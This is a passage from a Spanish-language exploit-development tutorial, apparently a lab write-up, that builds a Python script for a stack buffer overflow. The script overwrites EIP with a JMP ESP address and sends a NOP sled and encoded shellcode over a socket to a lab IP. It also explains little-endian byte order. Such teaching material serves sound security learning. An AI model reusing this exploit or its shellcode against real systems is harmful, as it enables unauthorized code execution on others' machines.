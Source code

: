 ## Creación del exploit

Antes de continuar, representemos todos estos datos en un script de python que será nuestro exploit.

```python
#!/usr/bin/python3
import socket

ip = "192.168.1.101" #cambiar la IP por la que corresponda
port = 9898

offset = 112
before_eip = b"A" * 112
eip = b'\x55\x9d\x04\x08' # 0x08049d55 jmp ESP

shellcode =  b""
shellcode += b"\xba\xae\x9a\x58\xac\xd9\xc4\xd9\x74\x24\xf4"
shellcode += b"\x5e\x33\xc9\xb1\x12\x31\x56\x12\x83\xc6\x04"
shellcode += b"\x03\xf8\x94\xba\x59\x35\x72\xcd\x41\x66\xc7"
shellcode += b"\x61\xec\x8a\x4e\x64\x40\xec\x9d\xe7\x32\xa9"
shellcode += b"\xad\xd7\xf9\xc9\x87\x5e\xfb\xa1\xd7\x09\xfa"
shellcode += b"\x3f\xb0\x4b\xfd\x2e\x1c\xc5\x1c\xe0\xfa\x85"
shellcode += b"\x8f\x53\xb0\x25\xb9\xb2\x7b\xa9\xeb\x5c\xea"
shellcode += b"\x85\x78\xf4\x9a\xf6\x51\x66\x32\x80\x4d\x34"
shellcode += b"\x97\x1b\x70\x08\x1c\xd1\xf3"

nops = b'\x90' * 32

after_eip = nops + shellcode

payload = before_eip + eip + after_eip

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((ip, port))

s.send(payload)

s.close()
```

Como estamos frente a una arquitectura x86 las direcciones de memoria deben representarse en **little-endian**, es decir, el valor de nuestra variable `eip` que corresponde a la instrucción `JMP ESP` debe representarse de la siguiente forma:

```python
eip = '\x55\x9d\x04\x08'
```

## Uso de NOPs
